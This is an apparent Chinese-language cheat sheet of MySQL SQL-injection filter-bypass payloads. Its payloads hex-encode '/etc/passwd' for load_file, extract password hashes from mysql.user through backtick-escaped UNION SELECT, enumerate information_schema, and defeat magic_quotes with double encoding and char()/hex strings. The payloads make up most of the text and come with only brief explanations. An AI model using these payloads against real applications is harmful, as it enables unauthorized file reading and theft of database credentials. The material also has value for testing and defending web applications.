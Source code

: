 ### 敏感函数

```
version()%0b


将version()换成@@version


`函数名`() 等价于 函数名()
SQL> id=1 and(select `load_file`(0x2f6574632f706173737764) is not null)

SQL> id=1614444.0Union(select-1.0,password,3,4,5,6,7,`user`FROM(`mysql`.user))
这里关键是反单引号的使用,成功逃过了敏感字符串“mysql.user”。
id=161444.0有两个作用,第一让原来的查询返回空，第二这是一个小数，小数后可以直接接关键字，而不用空格。
```

### 语句变形 --mysql黑魔法

```
SQL> select{x table_name}from{x information_schema.tables}
```

### 大小写

SQL> 1+UnIoN/**/SeLecT/**/1,2,3 --

## 中间层绕过

### php.ini设置

safe_mode = On <- 比较用户权限，限制特定函数
display_errors = Off

magic_quotes_gpc = On <- 转义特殊符号
and+column_name+like+%2527%25pass%25%2527 双重转义

magic_quotes_gpc = Off
username=char(97,108,112)%23 <- 不包含引号 username=0x616C7069 select 'a' -> select version() <- 不包含引号
